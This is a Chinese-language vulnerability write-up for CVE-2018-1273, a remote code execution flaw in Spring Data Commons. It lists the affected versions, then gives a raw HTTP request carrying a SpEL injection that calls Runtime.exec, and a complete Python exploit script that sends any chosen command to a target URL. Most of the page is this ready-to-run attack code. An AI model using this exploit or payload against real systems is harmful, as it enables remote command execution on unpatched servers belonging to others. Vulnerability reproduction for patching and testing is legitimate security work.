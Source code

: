 （CVE-2018-1273）Spring Data Commons组件远程代码执行漏洞
========================================================

一、漏洞简介
------------

攻击者可以构造恶意的请求对Spring Data
REST发起攻击，包括使用基于HTTP资源的，或者其他请求基于Spring Data's
projection负载结合的，最终导致远程代码执行攻击。

二、漏洞影响
------------

Spring Data Commons 1.13 - 1.13.10(Ingalls SR10)

Spring Data REST 2.6 - 2.6.10 (Ingalls SR10)

Spring Data Commons 2.0 - 2.0.5 (Kay SR5)

Spring Data REST 3.0 - 3.0.5 (Kay SR5)

三、复现过程
------------

    POST /users?page=&size=5 HTTP/1.1
    Host: localhost:8080
    Connection: keep-alive
    Content-Length: 124
    Pragma: no-cache
    Cache-Control: no-cache
    Origin: http://localhost:8080
    Upgrade-Insecure-Requests: 1
    Content-Type: application/x-www-form-urlencoded
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
    Referer: http://localhost:8080/users?page=0&size=5
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

    username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=

执行`docker-compose exec spring bash`进入容器中，可见成功创建`/tmp/success`，说明命令执行成功：

![1.png](./resource/(CVE-2018-1273)SpringDataCommons组件远程代码执行漏洞/media/rId24.png)

### poc

    cve-2018-1273_cmd.py
    #!/usr/bin/python3
    #-*- coding:utf-8 -*-
    # author:zhzyker
    # from:https://github.com/zhzyker/exphub
    # telegram:t.me/zhzyker

    import requests
    import sys

    if len(sys.argv)!=3:
        print('+----------------------------------------------------------------------------+')
        print('+ DES: by zhzyker as https://github.com/zhzyker/exphub                       +')
        print('+      Spring Data Commons Remote Code Execution (No display)                +')
        print('+----------------------------------------------------------------------------+')
        print('+ USE: python3 cve-2018-1273_cmd.py <url> "<cmd>"                            +')
        print('+ EXP: python3 cve-2018-1273_cmd.py http://1.1.1.1:8080 "touch /tmp/exphub"  +')
        print('+ VER: Spring Data Commons 1.13 to 1.13.10                                   +')
        print('+      Spring Data Commons 2.0 to 2.0.5                                      +')
        print('+----------------------------------------------------------------------------+')
        sys.exit()
        
    url = sys.argv[1]
    cmd = sys.argv[2]
    vuln = url + "/users"  

    headers = {
        'Host': "localhost:8080",
        'Connection': "keep-alive",
        'Content-Length': "120",
        'Pragma': "no-cache",
        'Cache-Control': "no-cache",
        'Origin': "http://localhost:8080",
        'Upgrade-Insecure-Requests': "1",
        'Content-Type': "application/x-www-form-urlencoded",
        'User-Agent': "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36",
        'Accept': "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8",
        'Referer': "http://localhost:8080/users?page=0&size=5",
        'Accept-Encoding': "gzip, deflate, br",
        'Accept-Language': "zh-CN,zh;q=0.9,en;q=0.8"
        }
        
    payload = "username[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('%s')]=&password=&repeatedPassword=" % cmd

    try:
        r = requests.post(vuln, data=payload, headers=headers)
        if r.status_code == 500:
            print ("[+] Code executed successfully")
        else:
            print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")
    except:
        print ("[-] Target Not CVE-2018-1273 Vuln, Good Luck")
